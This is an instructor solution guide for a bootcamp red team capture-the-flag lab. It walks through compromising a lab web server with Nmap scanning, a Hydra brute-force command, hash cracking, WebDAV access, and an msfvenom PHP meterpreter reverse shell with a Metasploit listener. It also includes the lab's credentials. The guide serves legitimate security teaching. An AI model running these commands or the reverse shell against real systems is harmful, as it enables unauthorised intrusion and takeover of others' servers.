








## Day 1 Solution Guide: Red Team

This solution guide should only be used to help students if they get stuck. Before helping students, remind them that penetration testing is usually done in teams that collaborate with one another.

If students are still struggling or stuck, consult the following guides and offer assistance.

While going through the solution file, please note that the IP addresses here need to be replaced your machine's IP addresses. 
  
### Step 1: Discover the IP address of the Linux server.

In order to find the IP address of the machine, you will need to use Nmap to scan your network.

- Open the terminal and run: `nmap 192.168.1.0/24`

   

From the Nmap scan we can see that port `80` is open. Open a web browser and type the IP address of the machine into the address bar.

- Open a web browser and navigate to `192.168.1.105` and press `enter`.

   

### Step 2: Locate the hidden directory on the server.

- Navigating through different directories, you will see a reoccurring message:

  ```
  Please refer to company_folders/secret_folder for more information
  ERROR: company_folders/secret_folder/ is no longer accessible to the public
  ```

- Navigate to the directory by typing: `192.168.1.105/company_folders/secret_folder`

- The directory asks for authentication in order to access it. Reading the authentication method, it says "For ashton's eyes only."

    

### Step 3: Brute force the password for the hidden directory.

Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient to use a brute force attack, specifically Hydra.

- Using Ashton's name, run the Hydra attack against the directory:

  - Type: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`

      

- The brute force attack may take some time. Once it finishes, you'll find the username is `ashton` and the password is `leopoldo`.

    

- Go back to the web browser and use the credentials to log in. Click the file `connecting_to_webdav`.

   

- Located inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.

   

   

**Step 4: Connect to the server via Webdav**

There are several ways to break the password hash. Here, we simply used Crack Station, to avoid waiting for `john` to crack the password.

Navigate to `https://crackstation.net`; paste the password hash and fill out the CAPTCHA; and click **Crack Hashes**.

   

  - The password is revealed as: `linux4u`

### Step 5: Connect to the server via WebDAV.

This may be the most difficult part of the Red Team exercise, as it will require students to do external research on how to connect to the VM's WebDAV directory.

In addition, the instructions show an outdated IP address that the students will need to change to the IP address they discovered.

- In order to do so, students will already need to have the user name and following instructions from the `secret_folder`. Direct students to:
  - Open the `File System` shortcut from the desktop.
  - Click `Browse Network`.
  - In the URL bar, type: `dav://192.168.1.105/webdav`, and enter the credentials to log in.

    

### Step 6: Upload a PHP reverse shell payload.

- To set up the reverse shell, run:

  - `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`

   

- Run this series of commands to set up a listener:

  - `msfconsole` to launch `msfconsole`.
  - `use exploit/multi/handler`
  - `set payload php/meterpreter/reverse_tcp`
  - `show options` and point out they need to set the `LHOST`.
  - `set LHOST 192.168.1.90`
  - `exploit`

    

- Place the reverse shell onto the WebdDAV directory.

    

- Now that you're logged in, connect to the webdav folder by navigating to `192.168.1.105/webdav`. Use the credentials that you used before, `user:ryan pass:linux4u`.

  

- Navigate to where you first uploaded the reverse shell and click it to activate it. If it seems like the browser is hanging or loading, that means it has worked.
    - If it asks you if you'd like to save or open the PDF file, start again at the beginning of Step 5.

  

### Step 7: Find and capture the flag.

- On the listener, search for the file `flag.txt` located in the `root` directory. Students can use many techniques they have learned in order to find it.

- On the listener, search for the file `flag.txt` located in the root directory. Students can use many techniques they have learned to find it. One technique is to run:

  - Drop into a bash shell with the command: `shell`
  - Go to the `/` directory: `cd /`
  - Search the system for any files containing the phrase "flag" : `find . -iname flag.txt`

Students can read the file, once located, with `cat`.

   

| :warning: **Important Checkpoint** :warning:                     |
|------------------------------------------------------------------|
| **At this time, you should have completed the following steps:** |
| Step 1: Discover the IP address of the Linux server.             |
| Step 2: Locate the hidden directory on the server.               |
| Step 3: Brute force the password for the hidden directory.       |
| Step 4: Crack the password hash.                                 |
| Step 5: Connect to the server via WebDAV.                        |
| Step 6: Upload a PHP reverse shell payload.                      |
| Step 7: Find and capture the flag.                               |

To complete the next part of the project, you must complete steps 1-6 at a minimum. 

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
